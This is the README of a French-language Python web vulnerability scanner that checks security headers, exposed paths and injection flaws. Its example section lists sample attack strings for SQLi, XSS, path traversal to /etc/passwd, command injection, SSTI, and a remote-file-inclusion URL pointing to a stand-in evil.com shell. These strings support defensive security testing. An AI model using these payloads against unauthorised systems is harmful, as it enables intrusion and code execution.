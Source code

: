# 🛡️ WebScanner

WebScanner est un scanner de sécurité web simple et modulaire écrit en Python.  
Il permet de détecter les failles courantes comme :
- En-têtes HTTP manquants
- Chemins sensibles accessibles
- Vulnérabilités d’injection (XSS, SQLi, LFI, RFI, etc.)

---

## 🚀 Fonctionnalités

✅ Analyse des en-têtes de sécurité HTTP  
✅ Détection de chemins courants (`/admin`, `.git`, `/backup.zip`...)  
✅ Test de payloads malveillants (XSS, LFI, RFI, command injection...)  
✅ Rapport HTML clair avec niveaux de gravité et liens vers des solutions  
✅ Détection améliorée avec preuves d’exploitation (ex. : inclusion réelle de fichiers)  
✅ Modularité : chaque fonctionnalité est dans un module séparé (facile à maintenir)

---

## 📁 Arborescence

webscanner/
│
├── scanner.py # Script principal
├── payloads.txt # Liste de payloads d'injection
├── paths.txt # Liste de chemins communs à tester
├── rapport.html # Rapport généré automatiquement
├── scanner.log # Log des erreurs réseau
│
├── modules/
│ ├── headers.py # Analyse des en-têtes
│ ├── pages.py # Scan des chemins
│ ├── injection.py # Test des injections
│
├── utils/
│ ├── report.py # Génération du rapport HTML
│ ├── classifier.py # Classification des payloads
│ ├── detection_signatures.py # Signatures pour détection réelle
│
└── pycache/ # Fichiers Python compilés (à ignorer)

---

## ⚙️ Installation

### 1. Cloner le projet :
git clone https://github.com/ton-utilisateur/webscanner.git
cd webscanner

🧪 Utilisation
Scanner une URL : python3 scanner.py
ou directement : python3 scanner.py https://example.com

Résultat :
Un fichier rapport.html est généré dans le dossier courant.
Il contient :

La liste des failles détectées

Leur type (ex. : XSS, LFI...)

Leur niveau de dangerosité (Critique, Moyen, Info)

Des liens vers les solutions recommandées

---

📚 Exemples de payloads
Le fichier payloads.txt inclut plusieurs types de tests :

SQLi : ' OR 1=1 --

XSS : <script>alert(1)</script>

LFI : ../../../../etc/passwd

RFI : http://evil.com/shell.txt

Command Injection : $(id)

SSTI : {{7*7}}

🛠 Personnalisation
Ajouter des chemins à tester → paths.txt

Ajouter ou modifier des payloads → payloads.txt

Modifier le style ou le contenu du rapport → utils/report.py

---

🔒 Avertissement
⚠️ Ce projet est destiné à des fins éducatives uniquement.
N’utilisez cet outil que sur vos propres serveurs ou avec autorisation explicite.
Toute utilisation abusive est interdite.

---

📄 Licence
MIT License — Libre pour usage, modification et distribution.
